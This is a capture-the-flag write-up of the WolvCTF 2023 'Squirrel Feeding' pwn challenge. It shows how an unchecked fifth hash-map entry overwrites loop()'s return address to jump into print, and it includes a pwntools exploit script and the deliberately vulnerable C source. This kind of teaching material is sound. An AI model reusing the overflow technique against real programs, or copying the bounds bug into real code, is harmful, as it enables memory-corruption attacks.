








### Analyzing c code to read unintended memory
#### WolvCTF pwn Squirrel Feeding

Understanding structs to find overflow vulnerability and execute unintended code.
<!-- more -->

This challenge had the fewest solves of the pwn challenges during WolvCTF 2023. This was because it was an unusual challenge, requiring more static analysis and understanding of c than most challenges. We get the challenge executable, the c code and the Dockerfile.

{}

There are 186 lines of c code so I am not going to paste all of it in here. I will paste all of it at the end, but if you want to follow the writeup, I recommend opening up the c file on the side (provided above) so you can check and comment for yourselves if you have questions later.

Running the executable, it first makes us create a flag.txt file. This will later be interpreted as a number, so make sure to place a number that you will recognise later in flag.txt. Running the executable again, it asks us to either feed a squirrel or view a squirrels weight. Taking a quick look at the code we see a main function that calls `init_flag_map()` and then `loop`. The `init_flag_map` function in c looks like this:

```c
void init_flag_map() {
    FILE *flag_file = fopen("flag.txt", "r");
    if (flag_file == NULL) {
        puts("File not found!");
        exit(EXIT_FAILURE);
    }

    char flag_text[0x100];
    fgets(flag_text, sizeof(flag_text), flag_file);
    long flag_weight = strtol(flag_text, NULL, 10);

    flag_map.data = &flag_map.local;
    increment(&flag_map, FLAG_SQUIRREL_NAME, flag_weight);

    fclose(flag_file);
}
```

This function reads the flag and calls `strtol` on it (which is why flag.txt needs to contain a number). It then references flag_map which was created earlier and is very important for this challenge. The flag map was created with `map flag_map = {0};`. Map is a struct created at the top of the c file with the following code:

```c
typedef struct map_entry {
    char name[16];
    size_t weight;
} map_entry;

typedef struct map_data {
    size_t bin_sizes[10];
    map_entry bins[10][4];
} map_data;

typedef struct map {
    map_data *data;
    map_data local;
} map;
```

I have replaced some global variables to make it easier to read, but each map contains a map_data struct and a pointer to itself. Each map_data struct contains a size_t bin_sizes and an array of 10 bins, each with space for 4 map entries. A map entry contains 16 bytes for the name and a weight. Visualized it looks like this:



After creating the flag_map, `init_flag_map` calls `increment(&flag_map, "santa", flag_weight);`. This is another important function that I will explain more later, the quick explanation is that it creates an entry for the santa squirrel with our flag as the weight in the flag map. Keep in mind that the flag format is *wctf{squirrel_weight}*.

Once the flag map and the flag is created, the main function calls `loop`. This is the function that prints our menu and allows us to interract with the program multiple times. However, before it does this it creates another map with `map m = {0};`. This is the map we will have access to, so unfortunately we won't be operating on the map with the flag.

Our alternative branches inside loop are to press 1 to feed a squirrel or 2 to view a squirrels weight. If we remember that the flag i stored as a squirrels weight, the code to print somethings weight could become useful later. If we wish to feed a squirrel, we can send 7 bytes as the squirrels name, and 7 bytes with how much we want to feed the squirrel. Every time we want to feed the squirrel, it increments a counter `i` by 1, and once the counter reaches 5 (remember this number), the while loop will break and the program will exit. It then calls `increment(&m, name_input, option);` where m is the map, name_input is the name we chose and option is the amount we wanted to feed the squirrel with. As it is the most important function, lets look at what happens in `increment`:

```c
void increment(map *m, char *key, size_t amount) {
    size_t hash = hash_string(key);
    if (hash == 0)
        return;

    size_t index = hash % BIN_COUNT;

    for (size_t i = 0; i <= BIN_COUNT; i++) {
        map_entry *entry = &m->data->bins[index][i];

        // Increment existing
        if (strncmp(entry->name, key, MAX_NAME_LEN) == 0) {
            entry->weight += amount;
            printf("Squirrel %s has weight %zu lbs\n", entry->name, entry->weight);
            return;
        }

        // Create new
        if (i == m->data->bin_sizes[index]) {
            strncpy(entry->name, key, MAX_NAME_LEN);
            entry->weight += amount;
            if (key != FLAG_SQUIRREL_NAME) printf("New squirrel %s has weight %zu lbs\n", entry->name, entry->weight);
            m->data->bin_sizes[index]++;
            // TODO: enforce that new weight does not exceed the "presidential chonk!"
            get_max_weight(&flag_map, FLAG_SQUIRREL_NAME);
            return;
        }
    }
}
```

When feeding a squirrel, `increment` first calls the `hash_string` function with our name_input. This function simply takes each character of our input, multiplies it with 31 and adds that to a total sum. It returns this sum which is used to create index after taking the hash sum modulo 10 (BIN_COUNT). The index variable will be used to decide which bin our squirrel belongs in (if index is 3, our squirrel will be placed in bin 3). 

The function then checks each bin, until it either finds an entry with the name we chose or it reaches the correct bin and the squirrel doesnt already exist. If the squirrel exists it will add weight to that squirrel and return, but if the squirrel doesnt exist, it will place the name and weight in the next available map entry in that bin.

After creating a new squirrel it calls a function doesnt contain anythin and just returns, and contains a TODO comment. This is usually a good hint in ctf challenges, but exactly how this helps us will not become apparent until later.

We now have a good understanding of how the program works, and you might have already spotted the vulnerability. Each bin has space for 4 map entries, but the while loop in `loop` lets us add 5. Additionally the `increment` function doesnt check that the bin is not already full. ThereThis means that we can create a 5th map_entry with a name and a weight om the stack, outside of the area that we are meant to be writing to, and this might be very useful.

That is about all we can find with static analysis, so lets move on to dynamic analysis with gdb. We should first try to find both the flag_map and the normal map. We can find the flag map by breaking at the strncpy in `increment` before starting the program, because we know strncpy will take the address of flag_map as its destination argument.



After finding the address of the flag map, i continued until the end of increment and inspected the address given by strncpy (which was just past the middle of the flag map). We can see the entry for santa in hex, and an entry for weight right below, which makes sense since the name takes up 16 bytes. At the start of the flag map, we also see the pointer pointing to the start of the map.

Using the same method (breaking at strncpy and continuing) to find struct after creating a squirrel with name AAAA and weight 34 (just by using the program as intended) we get the following result:



It took a little bit of searching to find the correct start of the map, but you can recognise the pointer at the start behaving the same way as in the flag_map. The reason these addresses are on the stack (starting with 7) is that they are created inside the `loop` function, while the flag_map is created globally so it can be found in the data segment (addresses starting with 5).

We can see the entry for AAAA in the screenshot above. This is much closer to the start of the map, than the flag squirrel is in the flag map. This is because `hash_string("santa")%10` evaluates to 5, and `hash_string("AAAA")%10` evaluates to 0, so they are placed in respectively bin 5 and 0 in their own maps. You could test this by copying the c code and compiling it yourself (I did this), or writing a python script that does the same thing.

If you've followed along so far you have seen that all of the bins are placed sequentially on the stack. This means that using our previously discovered vulnerability which allows us to write a map entry outside of its own bin will usually overwrite the first map entry in the next bin. This would have been useful if the flag was in the same map as the one we are writing to, but unfortunately it's not. 

The only exception to overwriting the next bin is the 9th and last bin which doesnt have another bin to write into. Lets look at what exists past the last map entry and see if there is something that looks interesting. It can help to start by adding an entry in the 9th bin. For this we need the hash string function of our input mod 10 to return 9. I used my own compiled hash string function to discover that sending the number 1 met this criterie. Additionally, since the ascii value of the character F is 70, we can add as many Fs as we want (because 70*k % 10 = 0) after the 1 to place multiple squirrels in the 9th bin. Lets create a squirrel called 1F and inspect the stack.



Now that is interesting! There are instruction addresses just below the 9th bin in our map. We do not know what they are yet, but by adding 20*5 (16 bytes for name and 4 bytes for weight for 5 entries). We end up at the next address after the one with the value ending in **9c0**. That means that our weight will influence the address that is pointed to. We can do this because as we can see from the code our input is added to the weight, not assigned as it probably should be for new squirrels.

Stepping through the program a little bit, we eventually return to main, which is when we should realise we are on the right path. In the screenshot below we can see that even though the address ending in **9c0** wasn't in rip when we found it (while we were in `increment`) it is placed into rip when we return to `loop` and is used to return back to main. This means that our input changes the return pointer of `loop`!



Now all we have to do is decide what to return to. ASLR is enabled, so we can only return to addresses with static offsets, meaning inside the elf executable and not anywhere in libc. We are also limited by our 7 character input, so we can only change the instruction pointer by 9999999 or -999999.

My team got stuck here for a while, trying to figure out what to return to. We first confirmed everything was working as expected by finding a ret gadget which had an address 2470 lower than the return pointer to main. Creating a fifth squirrel in the 9th bin with weight -2470 did make the program execute a ret instruction and then seg fault, so it confirmed that the theory up until this point was correct. We also tried to jump to right after the check at the top of the while loop to get another input. This made sense because the return pointer is leaked as the weight of the fifth squirrel so theoretically we could use this and the name input to call two functions (8*2 bytes). However we could not figure out what to call, or any reasonable way to call it.

We struggled with this for a while until remembering the TODO in the code that we hadnt used yet. There is a comment there saying that something should be implemented later, however the `get_max_weight(&flag_map, FLAG_SQUIRREL_NAME);` function is still called in `increment`. x86 calling convention is that the first argument to a function call is in rdi and the second is in rsi. Even though calling the `get_max_weight` function doesnt do anything the user can see, it places the address of the flag map in rdi, and the name of the flag squirrel in rsi. That has to be useful somehow...

Looking around the code a bit more, we realise that the `print` function that is used to view a squirrels weight takes two paramers: a pointer to a map and a pointer to a squirrel name. This means that, assuming rdi and rsi don't change before we have rip control (which we can step through gdb to confirm doesnt happen), all we have to do is change the instruction pointer to call print, and rdi and rsi is already what we want in order for the program to give us the flag.

Gdb doesn't like that the function is called print, but we can use objdump or step through gdb after viewing a squirrels weight to find the address of print. We can then calculate that the offset is -1202 and use gdb to confirm it as below.



I thought we were finished at this point but sending -1202 doesn't give us the flag. It instead seg faults at an instruction in what gdb calls `buffered_vfprintf+91` deep inside of the print function. It is an instruction that uses rbp, and looks like something I would normally try to fix by adding a ret in front of the function call. In this case, however, we can not control more than a little bit of one instruction, so I didnt know what to do. This is when it was pointed out to me that the start of a function must work in the opposite way as the end of a function (a ret instruction). Looking at the following disassembly of the start of rbp we can see a push rbp instruction at the start.

```
0x000055cf2d8b850e <+0>:     endbr64 
0x000055cf2d8b8512 <+4>:     push   rbp
0x000055cf2d8b8513 <+5>:     mov    rbp,rsp
0x000055cf2d8b8516 <+8>:     sub    rsp,0x30
```

The push rbp instruction will change the rbp, and the instruction that previously seg faulted referenced rbp. Therefore it made sense to jump to print+5 (the first mov instruction) instead of to the very start of print. Trying that locally by sending -1197 instead of -1202 produces the following output:



It prints the weight of the santa squirrel at the end before exiting. In my flag.txt file i have "13371337", so running this remotely should now give us the flag.



It works and we get our flag! Using the flag format, the flag becomes **wctf{39875218375}**.

## Exploit and challenge code:

```py
from pwn import *

# This is not necessary, just faster. Everything can be typed in by hand

#p = process("./challenge")
#gdb.attach(p)
p = remote("squirrel-feeding.wolvctf.io", 1337)

for i in range(4):
    p.recvuntil(b"> ")
    p.sendline(b"1")
    p.recvuntil(b"name: ")
    p.sendline(b"1"+i*b"F")
    p.recvuntil(b"them: ")
    p.sendline(b"1")
    print("Registered "+str(i+1)+" squirrels")

# ROUND 5
p.recvuntil(b"> ")
p.sendline(b"1")
p.recvuntil(b"name: ")
p.sendline(b"1FFFFF")

print_func = -1202

p.sendline(str(print_func+5).encode())

p.interactive()
```

```c
#include <errno.h>
#include <stdio.h>
#include <stdlib.h>
#include <string.h>
#include <stdbool.h>

#define FEED_OPTION 1
#define VIEW_OPTION 2
#define QUIT_OPTION 3
#define MAX_NAME_LEN 16
#define BIN_COUNT 10
#define BIN_SIZE 4
#define FLAG_SQUIRREL_NAME "santa"

// Structs

typedef struct map_entry {
    char name[MAX_NAME_LEN];
    size_t weight;
} map_entry;

typedef struct map_data {
    size_t bin_sizes[BIN_COUNT];
    map_entry bins[BIN_COUNT][BIN_SIZE];
} map_data;

typedef struct map {
    map_data *data;
    map_data local;
} map;

// Globals

map flag_map = {0};

// Functions

size_t hash_string(char *string) {
    size_t hash = 0;
    size_t len = strlen(string);
    if (len > MAX_NAME_LEN)
        return 0;

    for (size_t i = 0; i < len; i++) {
        hash += string[i] * 31;
    }
    return hash;
}

void get_max_weight(map *m, char *key) {
    // TODO: implement
    // I figured I would just leave the stub in!
}

void increment(map *m, char *key, size_t amount) {
    size_t hash = hash_string(key);
    if (hash == 0)
        return;

    size_t index = hash % BIN_COUNT;

    for (size_t i = 0; i <= BIN_COUNT; i++) {
        map_entry *entry = &m->data->bins[index][i];

        // Increment existing
        if (strncmp(entry->name, key, MAX_NAME_LEN) == 0) {
            entry->weight += amount;
            printf("Squirrel %s has weight %zu lbs\n", entry->name, entry->weight);
            return;
        }

        // Create new
        if (i == m->data->bin_sizes[index]) {
            strncpy(entry->name, key, MAX_NAME_LEN);
            entry->weight += amount;
            if (key != FLAG_SQUIRREL_NAME) printf("New squirrel %s has weight %zu lbs\n", entry->name, entry->weight);
            m->data->bin_sizes[index]++;
            // TODO: enforce that new weight does not exceed the "presidential chonk!"
            get_max_weight(&flag_map, FLAG_SQUIRREL_NAME);
            return;
        }
    }
}

void print(map *map, char *key) {
    size_t hash = hash_string(key);
    if (hash == 0)
        return;

    size_t index = hash % BIN_COUNT;

    for (size_t i = 0; i < map->data->bin_sizes[index]; i++) {
        map_entry *entry = &map->data->bins[index][i];

        if (strncmp(entry->name, key, MAX_NAME_LEN) != 0) continue;

        printf("Squirrel %s has weight %zu lbs\n", entry->name, entry->weight);
        return;
    }
}

void init_flag_map() {
    FILE *flag_file = fopen("flag.txt", "r");
    if (flag_file == NULL) {
        puts("File not found!");
        exit(EXIT_FAILURE);
    }

    char flag_text[0x100];
    fgets(flag_text, sizeof(flag_text), flag_file);
    long flag_weight = strtol(flag_text, NULL, 10);

    flag_map.data = &flag_map.local;
    increment(&flag_map, FLAG_SQUIRREL_NAME, flag_weight);

    fclose(flag_file);
}

size_t i = 0;
long option = 0;
char *end_ptr = NULL;
char option_input[0x8] = {0};
char name_input[MAX_NAME_LEN] = {0};

void loop() {
    map m = {0};
    m.data = &m.local;

    while (i < 5) {
        puts("==============================");
        puts("What would you like to do?");
        puts("1. Feed your favorite squirrel");
        puts("2. View squirrel weight");
        puts("3. Quit");
        fputs("> ", stdout);

        fgets(option_input, sizeof(option_input), stdin);
        option = strtol(option_input, &end_ptr, 10);
        if (errno) {
            puts("Invalid option!");
            continue;
        }

        if (option == FEED_OPTION) {
            ++i;

            fputs("Enter their name: ", stdout);
            fgets(name_input, sizeof(name_input), stdin);

            fputs("Enter the amount to feed them: ", stdout);
            fgets(option_input, sizeof(option_input), stdin);
            option = strtol(option_input, &end_ptr, 10);
            if (errno) {
                puts("Invalid option!");
                continue;
            }

            increment(&m, name_input, option);

        } else if (option == VIEW_OPTION) {
            fputs("Enter their name: ", stdout);

            fgets(name_input, sizeof(name_input), stdin);

            print(&m, name_input);

        } else if (option == QUIT_OPTION) {
            break;

        } else {
            puts("Invalid option!");
        }
    }
}

int main() {
    setvbuf(stdout, NULL, _IONBF, 0);
    setvbuf(stderr, NULL, _IONBF, 0);
    setvbuf(stdin, NULL, _IONBF, 0);

    puts("Welcome to the Michigan squirrel feeding simulator!");

    init_flag_map();

    loop();
}
```


